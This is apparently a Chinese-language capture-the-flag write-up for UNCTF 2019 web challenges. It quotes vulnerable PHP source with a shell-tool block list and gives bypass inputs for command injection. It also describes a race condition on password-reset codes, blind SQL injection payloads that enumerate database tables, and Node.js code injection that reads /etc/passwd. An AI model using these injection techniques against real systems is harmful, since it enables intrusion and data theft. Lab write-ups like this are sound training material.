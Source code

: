 # unctf2019

## bypass

```php

<?php
    highlight_file(__FILE__);
    $a = $_GET['a'];
    $b = $_GET['b'];
 // try bypass it
    if (preg_match("/\'|\"|,|;|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $a))
        $a = "";
        $a ='"' . $a . '"';
    if (preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $b))
        $b = "";
        $b = '"' . $b . '"';
     $cmd = "file $a $b";
      str_replace(" ","","$cmd"); 
     system($cmd);
?>
```



用`a=\&b=\`来逃脱引号

用?来匹配,但是隐藏文件是无法显示的要自己在前面加一个.

最后在` http://101.71.29.5:10054/.F1jh_/h3R3_1S_your_F1A9.txt `里找到flag

`unctf{86dfe85d7c5842c5c04adae104193ee1}`



## NSB RESET PASSWORD

题目说是重置密码,刚开始我想的是越权

后面搞了好久都不行。后面试着弄了一下发现一个验证码可以多次用.

我就猜有可能是条件竞争

先注册一个账号用收到的验证码重置，然后再用admin账号请求重置密码

然后直接跳到修改密码的界面,修改一下就出来了



 flag{175f3098f80735ddfdfbd4588f6b1082} 



## 帮赵总征婚

盲猜sql注入

转义:`',",\,#`

还给了我们一个phpinfo?????

我也想帮赵总征婚啊，可是我没机会

remember_me 是否可以注入?





## inject twice

题目是sql-lab的源码

二次注入点

```php
if (isset($_POST['submit']))
{
	
	
	# Validating the user input........
	$username= $_SESSION["username"];
	$curr_pass= mysql_real_escape_string($_POST['current_password']);
	$pass= mysql_real_escape_string($_POST['password']);
	$re_pass= mysql_real_escape_string($_POST['re_password']);
	
	if($pass==$re_pass)
	{	
		$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
		$res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');
		$row = mysql_affected_rows();
		echo '<font size="3" color="#FFFF00">';
		echo '<center>';
		if($row==1)
		{
			echo "Password successfully updated";
	
		}
		else
		{
			header('Location: failed.php');
			//echo 'You tried to be smart, Try harder!!!! :( ';
		}
	}
	else
	{
		echo '<font size="5" color="#FFFF00"><center>';
		echo "Make sure New Password and Retype Password fields have same value";
		header('refresh:2, url=index.php');
	}
}
?>
```



但是得到admin账号后,并没有得到flag,估计要把数据库给溜一圈。

黑名单:`or, `

注册一个`hello\`的账号,就可以用,currentpass来注入,但是环境炸了,我sleep了一下就奇奇怪怪了

//////////////???????????????????

currentpass=`/**/or/**/1-- a`

数据库名` or (SELECT substr(hex(group_concat(schema_name)),1,1) FROM information_schema.schemata)=char(54)-- a`

information_schema,metinfo,mysql,performance_schema,security,sys

表:

`GROUP_CONCAT(table_name) FROM information_schema.tables WHERE TABLE_SCHEMA=database()`

security:emails,fl4g,referers,uagents,users

列名

fl4g:f1ag

最后的flag` UNCTF{585ae8df50433972bb6ebd76e3ebd9f4}`





## checkin 

又是一个vue应用

![image.png](http://ww1.sinaimg.cn/large/006pWR9agy1g8cz6r1f4pj30ep0d2wfe.jpg)

在代码中发现

/calc: 可以命令执行,但是却没有办法找到有效的利用方式

后端是node.js

version: v10.12.0 

cwd:/usr

/usr目录

 bin,games,include,lib,local,sbin,share,src 

res.end(require('fs').readFileSync('/etc/passwd').toString())

require('fs').readdirSync.('/etc/passwd').toString()

在根目录下找到flag

  flag{0e4d1980ef6f8a81428f83e8e1c6e22b} 

最后还是晚了一分钟

看来改天要看看nodejs的东东?

